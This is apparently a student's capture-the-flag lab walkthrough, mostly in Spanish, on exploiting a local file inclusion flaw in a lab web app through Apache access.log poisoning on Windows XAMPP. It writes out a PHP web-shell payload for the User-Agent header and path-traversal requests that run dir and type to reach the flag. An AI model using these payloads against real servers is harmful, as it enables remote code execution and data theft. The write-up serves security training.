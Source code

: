 # Walk: Laboratorio 3 de 3

## Fecha: 19/01/2025
## Host: Windows
## IP: 192.168.244.193

---

## Objetivo
The "Mountain Desserts" web application now runs on VM #3 at http://192.168.50.193/meteor/ 
(The third octet of the IP address in the URL needs to be adjusted). 
Use the LFI vulnerability in combination with Log Poisoning to execute the dir command. 
Poison the access.log log in the XAMPP **C:\xampp\apache\logs** log directory . 
Find the flag in one of the files from the dir command output.

---
## Herramientas
1. curl
2. burp
---
## Procedimiento y comandos
1. Paso 1: Ejecutamos el mismo envenenamiento del access.log que en el alboratorio 1 para habilitar RCE
	- **User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>**
2. Paso 2: Listamos el directorio pero en windows con burp:
	- **GET /meteor/index.php?page=../../../../../../../../xampp/apache/logs/access.log&cmd=dir HTTP/1.1**
	- Encontramos un archivo de texto: **hopefullynobodyfindsthisfilebecauseitssupersecret.txt**
3. Paso 3: Imprimimos el contenido del archivo:
	- ** GET /meteor/index.php?page=../../../../../../../../xampp/apache/logs/access.log&cmd=type%20hopefullynobodyfindsthisfilebecauseitssupersecret.txt**
	- buscamos el flag en los logs.
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

